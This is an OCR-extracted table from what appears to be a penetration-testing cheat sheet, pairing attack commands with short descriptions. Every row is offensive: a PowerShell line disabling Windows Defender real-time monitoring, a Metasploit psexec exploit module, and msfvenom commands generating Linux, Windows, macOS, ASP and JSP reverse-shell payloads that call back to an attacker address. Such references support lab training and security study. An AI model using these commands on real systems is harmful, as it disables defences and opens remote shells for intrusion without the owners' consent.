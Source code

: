 | `Set-MpPreference -DisableRealtimeMonitoring $true`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | Powershell command using to disable real time monitoring in `Windows Defender`                                                                                                                          |
| `use exploit/windows/smb/psexec`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`                                                                         |
| `shell`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Command used in a meterpreter shell session to drop into a `system shell`                                                                                                                               |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`                                                                                                                                                                                                                                                                                                                                                                                                                                                | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`                                                                                                                     |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`                                                                                                                                                                                                                                                                                                                                                                                                                                                  | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                       |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`                                                                                                                                                                                                                                                                                                                                                                                                                                              | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                   |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`                                                                                                                                                                                                                                                                                                                                                                                                                                            | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`                                                                                                                                                                                                                                                                                                                                                                                                                                                 | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                       |